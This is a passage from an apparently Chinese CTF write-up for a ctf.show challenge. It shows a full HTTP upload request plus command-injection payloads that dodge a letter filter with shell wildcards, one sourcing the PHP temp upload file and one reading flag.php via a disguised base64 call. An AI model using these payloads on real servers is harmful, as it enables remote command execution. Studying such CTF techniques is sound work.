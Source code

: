 payload: 由于/tep/phpXXXXXX（例如：/tmp/phpcjggLC）是随机字符所以发送一次不一定会生成结尾大写的临时文件多执行几次

``````
POST /?c=.%20/???/????????[@-[] HTTP/1.1
Host: 8dd1a3c6-778a-4811-b9fd-bb1a7cd05ea4.challenge.ctf.show
Content-Length: 291
Cache-Control: max-age=0
Sec-Ch-Ua: "Microsoft Edge";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryd3yDdMgKxVlM6vGA
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=0, i
Connection: close

------WebKitFormBoundaryd3yDdMgKxVlM6vGA
Content-Disposition: form-data; name="file"; filename="1.sh"
Content-Type: text/x-sh

#!/bin/sh

ls
------WebKitFormBoundaryd3yDdMgKxVlM6vGA
Content-Disposition: form-data; name="submit"

提交
------WebKitFormBoundaryd3yDdMgKxVlM6vGA--

``````

flag=ctfshow{d424d159-c449-4d59-902c-2356ca30eeff}

### 思路二：字符替换

由于过滤了字母，但没有过滤数字，我们尝试使用/bin目录下的可执行程序。

但因为字母不能传入，我们需要使用通配符?来进行代替

?c=/bin/base64 flag.php

替换后变成

?c=/???/????64 ????.???


[ERROR]: could not find driver